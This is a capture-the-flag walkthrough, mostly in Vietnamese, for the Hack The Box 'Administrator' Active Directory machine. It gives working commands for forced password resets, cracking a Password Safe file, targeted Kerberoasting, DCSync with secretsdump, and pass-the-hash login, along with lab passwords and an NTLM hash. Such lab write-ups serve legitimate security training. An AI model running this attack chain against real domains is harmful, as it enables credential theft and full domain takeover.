#### Machine Information
As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account
```
Username: Olivia 
Password: ichliebedich
```
## Task 1


Kết quả quét nhanh sẽ nhận được


> 21
## Task 2


Thực hiện dùng account được cung cấp để rà quét trên toàn bộ AD và input vào Bloodhound để phân tích
```bash
bloodhound-python -u 'Olivia' -p 'ichliebedich' -d administrator.htb -ns 10.129.73.144  -c All
```
Chúng ta thu được kết quả


> GenericAll
## Task 3


Chúng ta thu được kết quả

> ForceChangePassword
## Task 4


Chúng ta lại có được kết quả

> SHARE MODERATORS
## Task 5

Chúng ta nghi ngờ Share Modertators này có quyền gì đó mà chưa hiển thị trên Blooudhound nên tiến hành chiếm quyền user BENJAMIN để tìm hiểu sâu hơn

### Khai thác từng bước
#### Bước 1: Olivia → Michael (GenericAll)
**GenericAll** = full control lên object Michael. Có thể làm bất cứ gì: đổi password, set SPN, write msDS-KeyCredentialLink...

Cách đơn giản nhất là **đổi password của Michael**:
```bash
bloodyAD -d administrator.htb -u 'Olivia' -p 'ichliebedich' --host 10.129.73.144 set password 'Michael' 'NewPass123!'
```
#### Bước 2: Michael → Benjamin (ForceChangePassword)
Giờ chúng ta có creds của Michael. **ForceChangePassword** cho phép đổi password của Benjamin **mà không cần biết password cũ**:
```bash
bloodyAD -d administrator.htb -u 'Michael' -p 'NewPass123!' --host 10.129.73.144 set password 'Benjamin' 'NewPass456!'
```
#### Bước 3: Benjamin là Member of Share Moderators
Giờ chúng ta có creds Benjamin, member của **Share Moderators**. Tuy nhiên trên BloundHound lại không có đường nào cho user này đi tiếp nên thử recon các service khác xem sao thì chúng ta chợt nhớ còn ftp, thử login


**Password Safe** là một ứng dụng quản lý mật khẩu (giống KeePass). File `.psafe3` là database chứa các credentials được mã hóa, bảo vệ bởi một **master password**.

Chúng ta thực hiện download về tiến hành crack
```bash
pwsafe2john Backup.psafe3 > psafe.hash
john psafe.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
Tìm được mật khẩu


> tekieromucho
## Task 6


Tiến hành mở file psafe3 và đọc các thông tin
```bash
sudo apt install passwordsafe
pwsafe Backup.psafe3
```
Chúng ta thu được 3 cred


```
alexander / UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily / UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma / WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

> UXLCI5iETUsIBoFVTj8yQFKoHjXmb
## User Flag
Gợi ý quá rõ nên chúng ta thử sử dụng account emily để login vào dc

## Task 8


Thông tin này dễ dàng tìm được trên BloodHound


> GenericWrite
## Task 9


Từ gợi ý trên thì chúng ta tiến hành Targeted Kerberoasting
### 1. Gán SPN cho Ethan
```bash
bloodyAD -d administrator.htb -u 'Emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' --host 10.129.73.144 set object 'Ethan' servicePrincipalName -v 'HTTP/fake.administrator.htb'
```
### 2. Kerberoast
```bash
impacket-GetUserSPNs administrator.htb/'Emily':'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -dc-ip 10.129.73.144 -request
```
### 3. Crack hash
```bash
hashcat -m 13100 ethan.hash /usr/share/wordlists/rockyou.txt
```


Chúng ta thu được password
> limpbizkit
### 4. Cleanup - xóa SPN
```bash
bloodyAD -d administrator.htb -u 'Emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' --host 10.129.73.144 set object 'Ethan' servicePrincipalName
```
## Task 10


Chúng ta xem trên Bloodhound thì thấy được

Ethan có quyền **GetChanges + GetChangesAll** trên domain → đây là quyền **DCSync**
> DCSync
## Task 11


Dùng user Ethan đã chiếm được thực hiện DC Sync để lấy NTLM của Administrator
```bash
impacket-secretsdump 'administrator.htb/Ethan:limpbizkit'@dc.administrator.htb -dc-ip 10.129.73.144
```

Chúng ta sẽ hận được các NTLM hash của toàn bộ account có trong AD


> 3dc553ce4b9fd20bd016e098d2d2fd2e
## Root Flag
Thực hiện Winrm với cred thu được
```bash
evil-winrm -i 10.129.73.144 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```
Lấy được root flag

